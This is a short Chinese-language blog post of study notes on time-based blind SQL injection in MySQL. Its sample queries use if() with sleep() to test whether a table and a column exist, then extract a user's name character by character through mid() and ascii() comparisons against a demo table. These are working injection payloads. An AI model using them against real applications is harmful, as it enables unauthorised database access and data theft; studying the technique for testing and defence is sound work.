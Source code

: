 ```yaml
---
layout: post
title: "延时注入小结"
subtitle: "延时注入小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select sleep(3);
+----------+
| sleep(3) |
+----------+
|        0 |
+----------+

mysql> select name from users limit 1;
+----------+
| name     |
+----------+
| XiaoMing |
+----------+

```



**判断是否存在users表名**

```mysql
select * from users where id=1 and 0=if((select count(*) from users),sleep(3),1);

select * from users where id=1 and if((select count(*) from users),sleep(3),1);
```





**判断是否存在name字段**

```mysql
select * from users where id=1 and 0=if((select count(name) from users),sleep(3),1);

select * from users where id=1 and if((select count(name) from users),sleep(3),1);
```



**延时取出name字段数据**

```mysql
select * from users where id=1 and if(('g' = mid((select name from users limit 1),8,1)),sleep(3),1);
```



**利用ascii码取出 name字段数据 **

```mysql
select * from users where id=1 and if((ascii(mid((select name from users limit 1),1,1))=88),sleep(3),1);



select * from users where id=1 and if((ascii(mid((select name from users limit 1),2,1))=105),sleep(3),1);
```
